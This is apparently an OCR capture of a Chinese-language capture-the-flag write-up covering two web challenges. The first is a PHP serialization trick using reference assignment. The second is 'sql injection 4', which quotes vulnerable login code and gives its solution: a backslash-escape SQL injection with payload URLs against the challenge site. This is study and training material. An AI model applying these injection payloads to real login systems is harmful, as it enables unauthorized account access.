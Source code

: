 	构造序列化对象,令$o->enter===$o->secret
	在 PHP 中普通的传值赋值行为有个例外就是碰到对象 object 时，在 PHP 5 中是以引用赋值的，除非明确使用了 clone 关键字来拷贝，PHP 支持引用赋值，使用“$var = &$othervar;”语法。引用赋值意味着两个变量指向了同一个数据，没有拷贝任何东西
	class just4fun {
	    var $enter;
	    var $secret;
		function just4fun()  
        {  
            $this->enter=&$this->secret;  
        }
	}
	$o=new just4fun();
	echo serialize($o)

	O:8:”just4fun”:2:{s:5:”enter”;N;s:6:”secret”;R:2;}

28. sql injection 4 300

	继续注入吧~
	题目地址
	
	TIP:反斜杠可以用来转义
	仔细查看相关函数的用法
	<!--
	#GOAL: login as admin,then get the flag;
	error_reporting(0);
	require 'db.inc.php';
	
	function clean($str){
		if(get_magic_quotes_gpc()){
			$str=stripslashes($str);
		}
		return htmlentities($str, ENT_QUOTES);
	}
	
	$username = @clean((string)$_GET['username']);
	$password = @clean((string)$_GET['password']);
	
	$query='SELECT * FROM users WHERE name=\''.$username.'\' AND pass=\''.$password.'\';';
	$result=mysql_query($query);
	if(!$result || mysql_num_rows($result) < 1){
		die('Invalid password!');
	}
	
	echo $flag;
	-->
	Invalid password!

	解答：

		构造思路：SELECT * FROM users WHERE name='aaaa AND pass=' or 1 %23
		SELECT * FROM users WHERE name=\''.$username.'\' AND pass=\''.$password.'\';
	
		http://chinalover.sinaapp.com/web15/index.php?username=\&password=or 1;%23
		http://chinalover.sinaapp.com/web15/index.php?username=\&password=or 1%23

